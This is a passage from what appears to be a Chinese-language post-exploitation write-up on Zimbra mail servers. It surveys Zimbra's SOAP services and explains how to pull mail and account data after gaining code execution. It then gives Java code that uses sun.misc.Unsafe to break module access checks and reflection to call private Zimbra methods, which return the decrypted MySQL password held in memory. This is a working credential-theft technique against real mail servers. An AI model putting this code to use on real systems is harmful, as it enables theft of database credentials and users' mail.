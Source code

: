 zimbraAccount 帐户服务包括用于检索、存储和管理用户帐户信息的命令。  
  
zimbraAdmin 管理服务包括用于管理 Zimbra 的命令。  
  
zimbraAdminExt 管理扩展服务包括用于管理 Zimbra 的附加命令。  
  
zimbraMail 邮件服务包括用于管理邮件和日历信息的命令。  
  
zimbraRepl zimbraRepl 服务包括用于管理 Zimbra 服务器复制的命令。  
  
zimbraSync zimbraSync 服务包括使用同步管理设备的命令。  
  
zimbraVoice zimbraVoice 服务包括与统一通信相关的命令。  
  
通过对以上API接口请求调用栈分析，最终将我们想要的方法剥离出来。  
  
但是debug过程中存在context 、上下文、request等与请求强相关的参数传入，从层层紧密嵌套的调用栈中解构出来某个方法或属性是一件比较棘手的问题。  
  
回到问题出发点，我们获取的大部分邮件以及用户信息等必定以某种形式存储在系统中，各种类型的数据库或者其它存储容器，是否可以绕过复杂的调用栈与数据库直接交互获取数据？可以，但在zimbra不太适用。     
  
经过对zimbraMail 接口的调试发现，邮件数据主要调用Lucene进行搜索查询，并不是常规的JDBC数据库方式，写一个搜索逻辑成本远远大于代码中寻找合适的Api进行调用。我们逐个分析每个功能需要调用的API  
  
**1.数据库连接信息**  
  
jdbc连接信息往往都以加密的方式存放在某个文件中，既然我们可以在运行时执行代码，不如直接获取内存中解密后的明文连接信息，通过debug后可知，jdbc连接信息存储在com.zimbra.cs.db.MySQL.MySQLConfig类中，  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabwSic8OwyPGBBt7GzkmiaZXktJ29FcPN1eZtdQDHwCj2gdNZT01d8AMnyA/640?wx_fmt=png "")  
  
             
      
  
![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabwVg3Niae1ZibuGiafFcPZ5EpN35YJagIGK1u80VpqbYtqx4ZRSrzjt9DSw/640?wx_fmt=png "")  
  
很幸运地我们可以直接调用com.zimbra.cs.db.MySQL#getPoolConfig方法获取到数据库属性信息  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabwxAQBIsHDTsKlrZk7A6tGYyPGSUnSN6kExVhvGPKib59aSp4icZ1mWIDw/640?wx_fmt=png "")  
  
因为方法以及类并不是public，这里还需要使用反射进行间接调用，具体实现代码如下：     
  
```
try {
Class unsafeClass = Class.forName("sun.misc.Unsafe");
Field field = unsafeClass.getDeclaredField("theUnsafe");
field.setAccessible(true);
Unsafe unsafe = (Unsafe) field.get(null);
Module baseModule = Object.class.getModule();
Class currentClass = Main.class;
long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
unsafe.putObject(currentClass, offset, baseModule);
           
Method methodgetpoolconfig = Class.forName("com.zimbra.cs.db.MySQL").getDeclaredMethod("getPoolConfig");
methodgetpoolconfig.setAccessible(true);
           
Class mysqlconfigclass = Class.forName("com.zimbra.cs.db.MySQL$MySQLConfig");
Method method = mysqlconfigclass.getDeclaredMethod("getDBProperties");
method.setAccessible(true);
Properties properties = (Properties) method.invoke(methodgetpoolconfig.invoke((MySQL)Db.getInstance()));
password = properties.getProperty("password");
} catch (Exception e) {
throw new RuntimeException(e);
}
```  
  